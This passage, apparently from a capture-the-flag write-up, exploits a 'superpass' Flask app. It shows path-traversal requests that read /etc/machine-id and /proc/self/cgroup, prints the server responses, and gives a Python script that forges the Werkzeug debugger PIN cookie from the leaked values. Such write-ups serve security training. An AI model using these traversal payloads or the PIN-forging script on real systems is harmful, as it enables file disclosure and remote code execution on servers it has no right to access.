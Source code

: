 ```python
>>> print(0x005056b95ba3)
345052371875
```

`GET /download?fn=../../../../../etc/machine-id HTTP/1.1`

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 19 Mar 2023 08:26:54 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 33
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

ed5b159560f54721827644bc9b220d00
```

The cgroup name of the process:

```
GET /download?fn=../../../proc/self/cgroup HTTP/1.1
```

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 19 Mar 2023 10:05:33 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 35
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

0::/system.slice/superpass.service
```

Next, given the above information obtained - we create the following python script (taken from HackTricks):

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'www-data',# username
    'flask.app',# modname
    'wsgi_app',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/app/venv/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '345052371875',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'ed5b159560f54721827644bc9b220d00superpass.service'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]
```